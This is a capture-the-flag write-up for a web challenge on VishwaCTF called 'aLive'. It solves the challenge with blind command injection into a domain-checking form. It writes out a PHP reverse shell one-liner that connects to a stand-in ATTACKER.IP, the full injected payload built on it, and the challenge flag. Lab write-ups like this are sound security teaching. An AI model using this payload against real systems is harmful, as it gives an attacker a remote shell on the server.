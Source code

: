 # **Writeup - VishwaCTF**

* Category **web** 
* Name **aLive** 
* Difficulty **Medium**


## Description

In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

<img width="1324" alt="image" src="https://user-images.githubusercontent.com/121932742/232243936-dce05fad-bcf9-43a6-a545-90b24288aacb.png">



## **Solution**

The proper method to solve this challenge was doing a **Blind Command Injection**.

![image](https://user-images.githubusercontent.com/121932742/232248816-cce317cd-807a-4d28-819a-66b9ae2b9629.png)

This is how the website functions 

Now lets try to play with it

![image](https://user-images.githubusercontent.com/121932742/232248852-8d8fc05b-850f-4fdf-aa32-4bc1dd4ac732.png)

FISHY!

Now this is a sign of a blind command injection, entering localhosts alone tells you that it is not active. But appending ;ls returns that it is active.

After inspecting the request I intercepted in burp suite I found this:
X-Powered-By: PHP/8.1.2–1ubuntu2.11

Which tells two things.
1- The OS is Ubuntu.
2- The website’s backend is PHP.
So I went to revshells.com and grabbed this reverse shell payload:

```php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");'```

A nc listener is on as well as NGROK.
The final payload I sent to the web application is this:

```localhosts;php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");```

![image](https://user-images.githubusercontent.com/121932742/232248650-06314a44-3ae8-4c64-8299-605317d9f6bb.png)




To print the flag, we can use the **cat** command or we can access to the directory (add /flag.txt to the URL). 

<img width="1030" alt="image" src="https://user-images.githubusercontent.com/121932742/232244112-9db4bf0c-79b4-4651-b9cd-5c950a6da4b2.png">


flag: **VishwaCTF{b1inD_cmd-i}**
